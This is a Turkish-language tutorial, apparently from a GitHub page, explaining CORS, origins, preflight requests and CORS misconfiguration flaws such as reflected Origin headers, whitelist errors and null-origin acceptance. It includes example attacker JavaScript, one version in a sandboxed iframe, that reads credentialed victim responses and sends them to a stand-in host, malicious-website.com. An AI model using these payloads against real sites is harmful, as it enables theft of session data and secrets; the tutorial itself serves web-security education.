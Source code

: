 # CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend: example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

**Örnek:**  
![alt text](image.png)

# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

Örneğin uygulama aşağıdaki gibi istek alır:
```http
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

Referanslar:
https://portswigger.net/web-security/cors
https://aws.amazon.com/tr/what-is/cross-origin-resource-sharing/